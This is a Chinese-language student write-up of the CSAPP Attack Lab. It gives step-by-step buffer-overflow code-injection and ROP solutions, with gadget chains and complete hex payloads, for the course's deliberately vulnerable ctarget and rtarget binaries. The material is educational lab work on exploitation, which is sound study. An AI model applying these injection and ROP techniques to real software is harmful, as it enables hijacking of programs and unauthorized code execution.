



本次实验是CSAPP第三个lab：Attack，在实验2的基础上更进一步，不但需要分析汇编代码，还需要分析栈帧内容，通过栈溢出来注入攻击代码。通过本次实验，我们可以更加清晰的认识到缓冲区溢出的危害，了解如何利用栈帧漏洞更改程序跳转地址，以执行恶意代码，修改程序功能。
实验要求：阅读《深入理解计算机系统（第三版）》的3.10.3~3.10.4。
参考：CSAPP:Attack lab
说明：WriteUp
前置知识
本次实验一共介绍了两种最基本的利用缓冲区溢出入侵程序的手段：注入代码和ROP。
注入代码入侵
C语言中，执行函数时会分配栈帧空间并更改栈顶位置，与此同时，所有函数申请的局部变量，都会保存在分配到的栈帧中。而在本函数的栈帧空间之上，就是调用本函数的caller的返回地址。由于C语言中缺少对数组边界的检查，这意味着，如果我在一个函数中申请一个数组，然而我输入的数据大于数组的长度，那么多出来的数据将会覆盖其余的栈帧内容！
一般意义下的缓存溢出漏洞就是发生了上述的情况。程序接收了大于数组长度的数据，而多出来的数据覆盖了栈帧上的其他内容，比如返回地址。这样一来，只要精心计算一下栈中各部分代码的空间分配位置，就能用注入代码地址覆盖函数返回地址，强迫程序完成后跳转到注入代码的位置，执行非法代码！
ROP攻击
缓冲区溢出攻击的普遍发生给计算机系统造成了许多麻烦。现代的编译器和操作系统实现了许多机制，以避免遭受这样的攻击，限制入侵者通过缓冲区溢出攻击获得系统控制的方式。
- 栈随机化：栈随机化的思想使得栈的位置在程序每次运行时都有变化。因此，即使许多机器都运行同样的代码，它们的栈地址都是不同的。上述3个阶段中，栈的地址是固定的，所以我们可以获取到栈的地址，并跳转到栈的指定位置。
- 栈破坏检测：最近的GCC版本在产生的代码加入了一种栈保护者机制，来检测缓冲区越界。其思想是在栈帧中任何局部缓冲区和栈状态之间存储一个特殊的金丝雀值。在恢复寄存器状态和从函数返回之前，程序检查这个金丝雀值是否被该函数的某个操作或者该函数调用的某个操作改变了。如果是的，那么程序异常中止。
- 限制可执行代码区域：最后一招是消除攻击者向系统中插入可执行代码的能力。一种方法是限制哪些内存区域能够存放可执行代码。
在ROP攻击中，因为栈上限制了不可插入可执行代码，所以不能像上述第二、第三阶段中插入代码。所以我们需要在已经存在的程序中找到特定的指令序列，并且这些指令是以ret结尾，这一段指令序列，我们称之为gadget。如图所示：

每一段gadget包含一系列指令字节，而且以ret结尾，跳转到下一个gadget，就这样连续的执行一系列的指令代码，对程序造成攻击。比如有这么一段代码：1
2
3
4void setval_210(unsigned *p)
{
*p = 3347663060U;
}
汇编后得到：1
2
30000000000400f15 <setval_210>:
400f15: c7 07 d4 48 89 c7 movl $0xc78948d4,(%rdi)
400f1b: c3 retq
仔细观察代码，可以看到字节序列恰好是指令movq %rax, %rdi的编码，因此，如果程序跳转到地址0x400f18处，就能执行寄存器赋值操作。因此，当栈帧代码不可执行时，我们需要想办法在已有的字节码中找到我们所需要的字节码片段，然后将字节码的地址插入的栈帧中，通过ret实现前后代码的跳转。比如我找到了三段gadget代码，地址分别是ABC，那么我把ABC的地址放在相邻的栈帧中。首先函数返回ret跳转到A地址处，跳转之后rsp自动+8，此时rsp指向地址B，当A处指令执行完，调用ret，此时跳转到B指向的代码处，此时rsp继续+8，rsp指向地址C。以此类推，通过ret来控制程序执行。具体字节编码和汇编语句的映射关系可以查看这里（回忆一下，ret指令是获取当前rsp寄存器的值当做地址来跳转，然后rsp+8）
本次实验需要按要求“攻击”5次给定程序，前三次是注入代码攻击，后两次是ROP攻击。
Ctarget-level-1
注意
如果输入1
./ctarget
不能执行，那么请在后面加上-q参数：1
./ctarget -q
问题描述
假如在可执行文件CTARGET中，有一个负责读取键盘输入，并将数据存入到栈帧空间的函数getbuf：1
2
3
4
5
61 unsigned getbuf()
2 {
3 char buf[BUFFER_SIZE];
4 Gets(buf);
5 return 1;
6 }
该函数被test函数调用：1
2
3
4
5
61 void test()
2 {
3 int val;
4 val = getbuf();
5 printf("No exploit. Getbuf returned 0x%x\n", val);
6 }
本题要求输入一段字符串，覆盖掉getbuf的返回函数地址，使得getbuf返回到另一个函数touch1去：1
2
3
4
5
6
71 void touch1()
2 {
3 vlevel = 1; /* Part of validation protocol */
4 printf("Touch1!: You called touch1()\n");
5 validate(1);
6 exit(0);
7 }
解决思路
首先，需要注意的是，程序里的数据、地址按照小端法的方式保存，也就是说对于地址0x4017ef，在栈帧中的保存方式是（地址由小到大）：ef 17 40 00 00 00 00 00。嗯，是64位地址，别搞错了。
我们想要用输入数据覆盖掉getbuf的返回地址，并且让getbuf跳转到touch1函数去，那么我们必须需要知道
- getbuf的输入缓存大小。
- getbuf的栈帧大小，以此确定存放getbuf返回函数地址的栈帧区域。
- touch1函数的入口地址。
那么，首先反汇编得到ctarget的汇编代码：
objdump -d ctarget > ctargetCode.txt
分析汇编代码，我们可以得知touch1的入口地址是0x4017c01
200000000004017c0 <touch1>:
4017c0: 48 83 ec 08 sub $0x8,%rsp
接着分析getbuf代码，发现getbuf一共申请了0x28（十进制40）个字节来保存输入数据。1
2
3
4
5
6
7
800000000004017a8 <getbuf>:
4017a8: 48 83 ec 28 sub $0x28,%rsp
4017ac: 48 89 e7 mov %rsp,%rdi
4017af: e8 8c 02 00 00 callq 401a40 <Gets>
4017b4: b8 01 00 00 00 mov $0x1,%eax
4017b9: 48 83 c4 28 add $0x28,%rsp
4017bd: c3 retq
一种可行的方法：
再分析调用getbuf的test函数，发现test的返回地址保存在属于getbuf栈帧的上面8个字节处：1
2
3
40000000000401968 <test>:
401968: 48 83 ec 08 sub $0x8,%rsp
40196c: b8 00 00 00 00 mov $0x0,%eax
401971: e8 32 fe ff ff callq 4017a8 <getbuf>
很显然，假设当前栈顶rsp在getbuf处，那么rsp~rsp+0x27是保存输入数据，rsp+0x28~0x+2f保存getbuf的返回地址。剩下的很简单，我们输入48个字节，并且最后8个字节是touch1的入口地址即可，这里为了简单起见，我的前40个字节都是00：1
2
3
4
500 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
C0 17 40 00 00 00 00 00
将上述字节码保存文件ctarget-l1.txt处，输入命令即可pass第一个任务:1
./hex2raw < ctarget-l1.txt | ./ctarget -q
Ctarget-level-2
问题描述
和level1类似，覆盖函数返回地址，使得getbuf函数完成后跳转到touch2函数。不同的是，这一次需要带上参数。
提示
- 参数是保存在%rdi处
- 使用ret跳转代码。因为ret是绝对地址跳转，而jmp和callq是相对地址跳转，对于注入代码来说，相对地址不好计算，绝对地址方便很多。
解决思路
那么首先我们思考一下，在getbuf之后代码应该跳转到哪里？=>跳转到我们的注入代码处。
我们的注入代码在哪里？=>在getbuf申请的rsp栈帧里。
此时rsp~rsp+0x27存放输入数据（注入代码），rsp+0x28~rsp+0x2f存放跳转地址。
现在问题转化为寻找当前rsp的值。
打开gdb，在getbuf这里设置断点。然后通过print $rsp查看栈顶值。
我的rsp是$5561dc78。
我们的思路是，将getbuf的返回函数地址修改为注入代码处的地址，也就是存放读入数据的栈顶位置，然后执行参数赋值、修改函数返回值的操作，最后ret带着参数跳转到touch2处。
剩下的就好办了，新建inject.s文件，文件内容是：1
2
3mov $0x59b997fa, %rdi
push $0x4017ec
ret
使用先编译后反汇编得到二进制代码。1
gcc -c inject.s
1 | Objdump -d inject.o |
反汇编内容如下：1
2
3
4
5
6
7
8
9inject.o: file format elf64-x86-64
Disassembly of section .text:
0000000000000000 <.text>:
0: 48 c7 c7 fa 97 b9 59 mov $0x59b997fa,%rdi
7: 68 ec 17 40 00 pushq $0x4017ec
c: c3 retq
得到注入代码的字节码后，将其保存到ctarget-l2.txt，文件内容是:1
2
3
4
548 c7 c7 fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
最后输入指令即可pass第二个问题。1
./hex2raw < ctarget-l2.txt | ./ctarget -q
注
事实上，不一定是跳转到当前栈顶，可以跳转到rsp~rsp+0x1b处。 可以用倒推法，rsp~rsp+0x27是输入数据，rsp+0x28之后是函数返回地址，需要嵌入注入代码的地址。而当执行getbuf的ret时，栈顶指向rsp+0x28处。（这里的rsp指代读入数据时的栈顶位置）因为我们的注入代码通过pushq将touch2的地址嵌入到栈帧里，而ret之后，栈顶指针+8变成了rsp+30，减去压人的touch2的8位地址，剩下还有0x28个可用字节。而注入代码占13个字节，所以在rsp~rsp+0x1b任意一处注入代码都是可行的(跳转代码需要适时调整）。不过为了方便起见，显然直接在输入数据的rsp处注入代码是最好的。
这一段说的有点乱，大家意会一下就好。
Ctarget-level-3
问题描述
已知在touch3内部调用了hexmatch函数，两个函数的具体定义如下：
hexmatch:1
2
3
4
5
6
7
8
91 /* Compare string to hex represention of unsigned value */
2 int hexmatch(unsigned val, char *sval)
3 {
4 char cbuf[110];
5 /* Make position of check string unpredictable */
6 char *s = cbuf + random() % 100;
7 sprintf(s, "%.8x", val);
8 return strncmp(sval, s, 9) == 0;
9 }
touch3:1
2
3
4
5
6
7
8
9
10
11
12
1310
11 void touch3(char *sval)
12 {
13 vlevel = 3; /* Part of validation protocol */
14 if (hexmatch(cookie, sval)) {
15 printf("Touch3!: You called touch3(\"%s\")\n", sval);
16 validate(3);
17 } else {
18 printf("Misfire: You called touch3(\"%s\")\n", sval);
19 fail(3);
20 }
21 exit(0);
22 }
要求与level2类似，都是需要将getbuf的返回地址覆盖为touch3的返回地址，并且附带参数。不同的是，这次需要输入自己cookie值的8位ascii编码值，并且将编码值的地址作为参数传入touch3中。
提示
- 在linux下输入”man ascii”可以看到ascii编码表。
- 字符串后面要加上终止符结尾。
- 需要将字符串的地址传到%rdi作为touch3的参数。
- 当调用hexmatch和strncmp时，栈帧内容可能会被这两个函数的变量覆盖。换句话说，如果把编码值放在getbuf的栈帧内，就有可能（一定会）会被其他函数的值覆盖掉。
解决思路
仔细观察hexmatch函数，由于下面这行代码的存在，hexmatch可能会分配110个字节的空间，而这110个字节是在栈上分配的！也就是说getbuf的输入内容很可能会被覆盖。那么我们应该把cookie字符串放哪里好呢？一个自然的想法是放在当前rsp栈帧的很后面，保证不会被后面函数申请的栈帧覆盖，然而这很难；第二种选择就是往上覆盖之前函数的栈帧，这样一来地址就确定了，而且不怕被后来的函数覆盖。1
char *s = cbuf + random() % 100;
那么接下来就很简单了，生成下面代码的字节码，然后在rsp+0x28处写上touch3的函数地址，在rsp+0x30处写上cookie的16进制表示的ascii值。因为rsp+0x30属于test函数，把字符串放这里不用怕被后面的函数覆盖掉，因为test函数一直没有返回，所以其申请的栈帧一直有效。1
2
3mov $0x5561dca8, %rdi
pushq $0x4018fa
ret
最后得到输入的字节码：1
2
3
4
5
648 c7 c7 a8 dc 61 55 68 fa 18
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
Rtarget-level-1
Rtarget的程序加入了以下两项保护措施，无法像ctarget一样直接定位栈帧位置。
- 栈随即初始化，每次运行栈地址都不确定，不能再像上面一样，通过修改固定栈位置的值来改变函数跳转的地址。
- 栈内部的代码不允许执行。
问题描述
和Ctarget-level-2的问题一样，覆盖getbuf的返回地址跳转到touch2处，并且输入自己的cookie值作为touch2的函数参数。不同的是，这里要求使用ROP方式。
因为这里使用了栈随机化，程序每次运行的栈位置都不一样，不想用ROP也不行。
解决思路
首先反汇编rtarget，并且找到start_farm至end_farm处的代码（节选）：1
2
300000000004019a0 <addval_273>:
4019a0: 8d 87 48 89 c7 c3 lea -0x3c3876b8(%rdi),%eax
4019a6: c3 retq
可以发现，地址0x4019a2处开始48 89 c7 c3恰好构成一条gadget，并且是mov %rax, %rdi。而%rdi正是我们传进touch2的参数。
剩下的有两件事：
- 第一，将cookie值赋值给%rax。
- 第二，跳转到touch2函数。
然后我们接着找，看看有没有含有cookie值的字节码。
显然找不到！
对于寄存器间的操作，能找到是正常的。但是对于数字间的赋值操作，找不到也是正常的，因为我们想赋值的数字千变万化，匹配不到很正常。所以对于赋值语句，我们要转换一下思路，不能使用mov语句来赋值，而应该使用别的，不是立即数形式的赋值语句，并且最好还和栈帧有关，因为我们只能在栈帧注入代码，换言之，我们所想要赋的值就保存在栈帧里。
仔细遍历一下指令集，发现popq正好满足我们的要求！popq是将当前rsp的值赋值给某个寄存器，然后rsp+8。
那么就好办了，我们将cookie值注入栈帧中，先是popq给某个寄存器，然后再通过ret跳转到mouv %rax,%rdi语句，然后再通过ret跳转到touch2函数。
1 | 00000000004019a7 <addval_219>: |
仔细观察代码，发现在0x4019ab有一个gadget，且58是popq %rax，90是nop占位指令，恰好满足我们的要求。
所以栈帧顺序是这样的：
- 记录getbuf返回地址的rsp值应该是0x4019ab，用于跳转到popq %rax指令，跳转后rsp+8的值就是popq的值，也即是cookie值。
- 在完成popq操作后，rsp再度加8变成rsp+0x10，此时ret返回应该是跳转到mov %rax,%rdi处，所以rsp+16是0x4019a2。
- 执行完赋值语句后，程序应该通过ret跳转到touch2函数，所以rsp+0x18处存放到应该是touch2的程序入口地址。

代码如下：1
2
3
4
5
6
7
800 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00 popq
fa 97 b9 59 00 00 00 00 cookie
a3 19 40 00 00 00 00 00 mov
ec 17 40 00 00 00 00 00 touch2
Rtarget-level-3
问题描述
和ctarget-level-3一样，只不过这次用ROP攻击方式。
解决思路
这题咋一看挺简单的，因为从level2我们就知道了用popq弹出栈帧内容并且赋值给rdi的方法。然而真正处理的时候才发现坑很大。
首先，level3要输入的是字符串的地址，并且这个字符串是9位的！！不是8位的。这时候查表，我们可以找到将rsp赋值给rax的字节码。
然而问题来了，将rsp赋值给rax后，rsp的内容并没有改变，此时ret返回的地址是rsp当前的值，也就是作为touch3参数的cookie值。而接下来ret将会以cookie值作为程序地址跳转，这显然是不行的。
于是我们思考，能不能找到一个语句，在将rsp的内容赋值给rax之后，对rsp的值进行更改？确实有，那就是popq。所以我们的目标是，找到一句rsp赋值语句后接pop的字节码。
然而找不到。此路不通。嗯，接下来，想到秃头也没想到怎么办才好，那就只能谷歌了。
仔细观察代码，发现有一句：1
2
300000000004019d6 <add_xy>:
4019d6: 48 8d 04 37 lea (%rdi,%rsi,1),%rax
4019da: c3 retq
这就是破局的关键。我们只需要将cookie放在栈帧的最上方，然后计算出一个基址和偏移值，并将基址和偏移值分别赋值给rdi和rsi就能得到cookie的地址，并且将这个地址传递给rax，然后传递给rdi，大功告成。
剩下的问题是，如何赋值给rsi。
查表，没想到这个也要绕路。
先是查到有mov %ecx,%esi，嗯找什么可以赋值给ecx，
然后查到有mov %edx, %ecs，嗯找什么可以复制给edx，
最后查到有mov %eax, %edx，嗯搞定了。

最后梳理一下:
- 首先将rsp的基址传给rdi，可以将rsp传递给rax再传递给rdi。
- 然后通过pop得到偏移值，再将偏移值七绕八拐传递给rsi。
- 最后跳转到touch3处，搞定。
输入字节码如下：1
2
3
4
5
6
7
8
9
10
11
12
13
14
1500 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
cc 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61 00
事后
完成这个实验，获益匪浅。见识了两种曾经的主流缓冲区溢出破坏方式，加深了我对栈帧空间的理解。希望以后写代码时，我能够以一个更为底层的角度去考虑代码结构，去思考代码的合理性与安全性。